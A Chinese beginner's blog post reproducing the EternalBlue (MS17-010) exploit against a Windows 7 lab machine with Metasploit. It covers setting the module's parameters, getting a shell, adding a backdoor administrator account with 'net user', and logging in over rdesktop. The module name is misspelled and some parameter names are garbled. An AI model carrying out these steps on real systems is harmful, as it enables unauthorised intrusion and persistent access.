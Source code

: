 ```yaml
---
layout: post
title: 'Metasploit简单使用'
subtitle: '利用永恒之蓝漏洞'
date: 2021-05-030
categories: CTF
cover: 'https://www.hualigs.cn/image/60b342c889328.jpg'
tags: 脚本的使用
---
```

## 说明
参加学校ICT活动需要一个技术展示，突然就想到之前最火的永恒之蓝漏洞，于是就有了这篇复现文章
本人还是个刚刚入门的小白，如果写的不好请轻喷
攻击机是kali 目标机是Windows 7
远程连接之前需要将Windows 7的允许远程链接打开

## 操作步骤
1. 启动Metasploit
![image](https://z3.ax1x.com/2021/05/30/2VyDN8.png)
2. 查找ms17_010
``` search ms17_010```
![iamge](https://z3.ax1x.com/2021/05/30/2Vyz4O.png)
ms17_010是永恒之蓝漏洞，适用于Windows 7和Windows Server 2012
3.使用 exploit/windows/smb/ms17_010_eternalbule
![image](https://z3.ax1x.com/2021/05/30/2V6lKs.png)
4. 设置一下
输入options
![image](https://z3.ax1x.com/2021/05/30/2V6TdP.png)
然后开始设置各种参数：
```rhosts 是目标IP地址 
   rprot是目标端口```
永恒之蓝漏洞是利用445端口进行渗透
5. SET
设置目标IP	设置目标端口	设置payload	设置target
![image](https://z3.ax1x.com/2021/05/30/2VcFWF.png)	
6. 开始运行 run或者exploit
然后就获取到目标电脑的权限
7. 提权方法
输入shell
![image](https://z3.ax1x.com/2021/05/30/2Vcb01.png)
7. 创建用户
``` net user 123 123+qwe /add 创建一个账户123 密码123+qwe的用户 
	net localgroup administrators 123 /add 将123提升为管理员```
8. 远程连接
``` rdesktop +IP```
![image](https://z3.ax1x.com/2021/05/30/2VgBAx.png)


![image](https://z3.ax1x.com/2021/05/30/2Vgcge.png)
然后登陆就可以

